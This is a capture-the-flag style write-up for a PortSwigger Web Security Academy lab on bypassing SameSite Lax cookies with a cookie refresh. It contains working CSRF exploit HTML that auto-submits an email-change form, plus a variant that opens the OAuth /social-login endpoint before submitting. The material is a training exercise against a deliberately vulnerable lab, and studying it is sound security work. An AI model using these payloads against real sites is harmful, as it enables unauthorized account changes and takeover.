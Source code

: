 # SameSite Lax bypass via cookie refresh

## This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

## The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

### HINT:

```html
<script>
  history.pushState("", "", "/");
</script>
<form
  action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"
  method="POST"
>
  <input type="hidden" name="email" value="foo@bar.com" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

---

### step 1

use this stricpt store view expoit it will change email if you login and wait for 2 minute it will not change email so do within 2 minute

```html
<script>
  history.pushState("", "", "/");
</script>
<form
  action="https://0a05009904830764825ebf6c00de0053.web-security-academy.net/my-account/change-email"
  method="POST"
>
  <input type="hidden" name="email" value="foo1@bar.com" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

### step2

### HINT:

```html
<form
  method="POST"
  action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"
>
  <input type="hidden" name="email" value="pwned@web-security-academy.net" />
</form>
<script>
  window.open("https://YOUR-LAB-ID.web-security-academy.net/social-login");
  setTimeout(changeEmail, 5000);

  function changeEmail() {
    document.forms[0].submit();
  }
</script>
```

change the script according to details with lab url
there is page `/social-login` it will rediredirect to login page this automatically initiates the full OAuth flow

```html
<form
  method="POST"
  action="https://0a05009904830764825ebf6c00de0053.web-security-academy.net/my-account/change-email"
>
  <input type="hidden" name="email" value="pwned@web-security-academy.net" />
</form>
<script>
  window.open(
    "https://0a05009904830764825ebf6c00de0053.web-security-academy.net/social-login"
  );
  setTimeout(changeEmail, 5000);

  function changeEmail() {
    document.forms[0].submit();
  }
</script>
```
